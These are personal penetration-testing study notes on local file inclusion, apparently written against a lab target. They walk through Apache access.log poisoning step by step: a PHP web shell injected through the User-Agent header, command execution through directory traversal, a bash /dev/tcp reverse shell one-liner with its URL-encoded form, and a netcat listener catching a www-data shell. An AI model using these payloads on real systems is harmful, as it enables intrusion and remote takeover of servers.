




# Local File Inclusion (LFI)
Many people mix up local file inclusion and [directory traversal](directory-traversal.md), but they are very different. THe biggest difference b/w them is that local file inclusion results in a file bing *included in the application's running code*, which ultimately means it can be leveraged for *code execution*. Directory traversal, on the other hand, just results in the attacker being able to *read* the file (not execute it). 

One way to identify an LFI from directory traversal is *how the file is displayed* on the webpage/etc when accessed. For example, an image file like a jpeg which is accessed through a directory traversal will be displayed as raw jpeg data in ASCII. A jpeg file accessed through LFI will be rendered as the actual image by the server.
## Log Poisoning
One way to achieve LFI is through log poisoning. Log poisoning occurs when the malicious data we send to the server is saved in the web server's logs. If you can find a way to get *executable code* saved in the server's log files, then it will execute (if we access it through an LFI).
### Example: `access.log`
Depending on the version, Apache servers usually include an `access.log` file which is usually found in `/var/log/apache2`. To figure out which user input is included in the log file, we can either read the documentation, find examples of it online, or (if the server is vulnerable to directory traversal) access the log file ourselves.

Assuming the server is vulnerable to directory traversal via a php parameter, we might use directory traversal to access it like this:
```bash
curl 'http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log' --path-as-is

192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
From the output, we can see that our user agent and the requested URL path are included in the logs. So, we can try to get code execution by inserting our own code into `access.log` via either the user agent of the file path.
#### User Agent
Using [burp suite](../../cybersecurity/TTPs/delivery/tools/burp-suite.md)'s Repeater tab, we can create the following [HTTP](../../www/HTTP.md) `GET` request and manipulate the user agent string that is sent with the request:
```http
GET /meteor/index.php?page=admin.php HTTP/1.1
Host: 192.168.216.16
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
Accept: text/html, application/xhtml+xml,application/xml
...
```
We can also do this with [curL](../../CLI-tools/linux/remote/curL.md):
```bash
curl --path-as-is -i -s -k -X $'GET' -H $'Host: 192.168.216.16' -H $'User-Agent: Mozilla/5.0 <?php echo system($_GET[\'cmd\']); ?>' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-Us,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1'   $'https://192.168.216.16/meteor/index.php?page=admin.php'
```
##### Sending the `ps` command
Assuming our request was written to the log file, we can try to execute it by leveraging the directory traversal vulnerability. To do that, we'll send a similar request, but this time we'll request the parameter we injected into the log files via our php script (`cmd`). If it works correctly, then PHP will execute whatever *linux based* command we give it in the next [curL](../../CLI-tools/linux/remote/curL.md) request:
```bash
curl http://192.168.216.16/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
If this works, the response should include output from the underlying linux system where the `ps` command was run (so we should be a list of running processes). 

##### Sending the `ls -la` command
If we update our request to send the linux `ls -la` command, we get the following error:

This is because of the space between `ls` and the flag. We need to *URL encode* the space to prevent the error and successfully execute the code in `access.log`. So, change the url in our request and replace the space with `%20`. It should look like: `/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la`.

### Escalating to a Reverse Shell
Now that we've verified code execution on the target, we can leverage this to get a [rev-shell](../../cybersecurity/TTPs/exploitation/rev-shell.md)! To do this, we'll replace the value we've given `cmd` to a common [bash](../../coding/languages/bash.md) one-liner:
```bash
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
This command starts a bash shell in interactive mode (with the `-i` flag). It also uses the `>` and `&` to *redirect stdout and stderr* from the bash process *to the device file `/dev/tcp/192.168.119.3/4444`*. This is important because `>` will *create the file if it doesn't exist*. The [device-file](../../computers/linux/device-file.md) created by this one-liner will try to establish a [TCP](../../networking/protocols/TCP.md) connection to `192.168.119.3` on port `4444`. So, theoretically, the IP address is *our machine* and we need to have some kind of listener already listening to port `4444` so we can catch the connection the script will try to make with us (this is why it's called a reverse shell). 

The `0>&1` portion of the command says that input/stdin for the bash shell (file descriptor `0`) should be *read* from the same source as stdout (file descriptor `1`) is being written to (which we set to the connection made by `/dev/tcp/192.168.119.3/4444`). So basically, this command will start a bash shell process, and open a TCP connection to a remote host (which is really us). The bash shell will read input from the TCP connection and write its output back to the TCP connection.
#### Fixing the command
Because PHP is ultimately what will execute our command, there's a chance that *sh* (Borne Shell) will be executed instead of bash (Bourne Again Shell). Our oneliner is written with syntax that sh will not understand and execute. To protect our payload and ensure it gets execute correctly by PHP, we can edit it so that bash is ultimately the shell process that gets started and executes our rev shell. 

To fix it, we're just going to wrap it in another bash command. This will ensure that a bash shell process will be started to execute our rev shell and not a sh process:
```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
The `-c` flag tells bash (or sh) to execute the following string as a command. So, when this oneliner gets executed, ultimately two bash processes will have been started, the wrapper (`bash -c`) and the command we give the wrapper (the string).

Before sending this, we also have to make sure to URL encode it so the spaces don't cause an HTTP error:
```http
GET http://192.168.204.16/meteor/index.php?page=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.245%2F4444%200%3E%261%22 HTTP/1.1
host: 192.168.204.16
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
content-length: 0
```
#### Setting up a listener
Now that our request body with the payload is ready, we need to set up a listener on port `4444` to listen and connect to the incoming request. Otherwise, even if the revshell works, we won't know because the port on our computer is closed and won't accept the incoming TCP connection.

To do this, we can use [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) as a listener. The following netcat command will put netcat into listen mode. We'll give netcat port `4444` to listen on, but we don't have to give an address. Without an address, netcat will default to listening to the *any* address `0.0.0.0`. Basically, the any address means netcat will listen on *all network interfaces* for connections coming in to port `4444`.
```bash
nc -nvlp 4444
listening on [any] 4444 ...
```
Once we see netcat is listening, we can send our modified GET request with our revshell payload:

If it works, the output in netcat should reflect that:
```bash
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.119.3] from (UNKNOWN) [192.168.50.16] 57848
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
From the output, we can see that our revshell executed successfully and given us an interactive bash shell into the target machine. The PHP process that executed the shell executed it as the user `www-data` from the directory `/var/www/html/meteor`.  Using `ls` to list the content of the directory the shell executed from, we can even see our `admin.php` file.
## LFI in Other Contexts
The only real difference in exploiting LFI on a Windows target than a Linux one is the file paths and languages  executing the code. For instance, the PHP script used to execute commands in the last Linux example would work the same if executed on a Windows host. This is because the PHP system function used to execute the code snippet is independent of the operating system (it knows how to change the execution on the underlying OS to achieve the same result).

What's more important than the operating system of the target is the *web application's programming language*, its version, and how the server is configured. In other words, PHP is not the only framework or server-side scripting language which can be abused for LFI and RFI vulnerabilities.
### LFI in Java Server Pages
As an example, lets investigate LFI in a JSP web application. If we try to carry out the same sequence of events as mentioned in the Log Poisoning section,  we would be trying to write JSP code to some kind of log file (Log Poisoning), and then access the file using LFI. The only difference would be the code snippet we inject into the log (it would be in JSP instead of PHP). 

However, PHP is going to be the most common scripting language you'll come across for LFI vulnerabilities. That's because the other web scripting languages like JSP are dated and not implemented as often. We're also likely to find them in [javascript](../../coding/languages/javascript.md)/ Node implementations. But, LFI vulns are not as common as they used to be because web security has improved.

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.